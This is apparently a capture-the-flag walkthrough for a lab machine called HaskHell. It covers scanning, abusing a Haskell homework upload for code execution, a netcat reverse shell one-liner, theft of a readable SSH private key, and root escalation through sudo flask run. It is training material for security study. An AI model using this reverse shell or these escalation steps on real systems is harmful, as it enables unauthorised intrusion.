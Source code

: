 ```yaml
---
layout: default
title: HaskHell 
---
```


# HaskHell

Room Description : Teach your CS professor that his PhD isn't in security.

lets begin by running Nmap scan ` sudo nmap -sS -A <IP> -v -oN scan `

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
```

We have discovered a webserver running on port 5001, which seems to hosted by a professor.

![](https://user-images.githubusercontent.com/75718583/130963432-ab921629-ac32-4c43-83a5-db48a40b6af0.png)

On exploring the webiste there is a link for uploading homework that redirect to http://<IP>/upload which dose not seems to works.

lets run dirsearch for discovering hidden directories or files.

```console
dirsearch -u http://10.10.153.185:5001/ --simple-report=web_dir
```
```console
  _|. _ _  _  _  _ _|_    v0.4.1                                                                     
 (_||| _) (/_(_|| (_| )                                                                              
                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-26_17-24-56.log

Target: http://10.10.153.185:5001/                                                                   
                                                                                                     
Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.153.185/_21-08-26_17-24-57.txt

[17:24:57] Starting: 
[17:25:03] 200 -  131B  - /uploads/affwp-debug.log       
[17:28:07] 200 -  237B  - /submit                                                        
[17:28:45] 500 -  291B  - /uploads/dump.sql                                                     

Task Completed                                                                                       
``` 
On visiting /submit page we can find a submit button. We can submit our haskell code and run arbitary comands on the server.

![image](https://user-images.githubusercontent.com/75718583/130962994-6d9768d9-47c5-4c5e-9108-dbe5bcc90695.png)

lets create a revshell

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <Your IP> 4444 >/tmp/f"
```
Uploading this script we get our revershell

```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ nc -lnvp 4444                                                                             
listening on [any] 4444 ...
connect to [10.8.167.134] from (UNKNOWN) [10.10.150.235] 45040
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```
lets Spawn a stable shell
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
flask@haskhell:~$ ls
ls
app.py  app.pyc  __pycache__  uploads
```
On enumerating the machine I'have found 2 user prof & haskell, in prof's home folder there was user.txt which contains user flag.

```console
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt

```
```console
flask@haskhell:/home/prof$ cat us 
cat user.txt 
flag{<secret>}
```
Surprisingly .ssh folder was accessible by anyone on visiting .ssh we found ssh keys for the user prof.
```console
cd .ssh
cd .ssh
flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
.........................................
-----END RSA PRIVATE KEY-----
```
  
Lets copy this key to our machine and ssh into the user prof another great thing is that this keys is not even password protected.
```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ chmod 600 id_rsa                                                                      
                                                                                                     
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ ssh -i id_rsa prof@10.10.150.235
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

  
```  
On checking privileges for user prof we find that he can run `/usr/bin/flask run` with root privileges.

For exploiting this we need to create a python script for spawing a root shell
```python
#!/usr/bin/python
import os
os.system("/bin/bash")
```
Set the variable to our newly created file

```console
export FLASK_APP=/home/prof/bash.py
```

Run `sudo /usr/bin/flask run`
```console
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# ls
app.py  __pycache__  rev.sh  user.txt
```
Got the root.txt

```console
root@haskhell:/root# cat root.txt 
flag{<secret>}
```
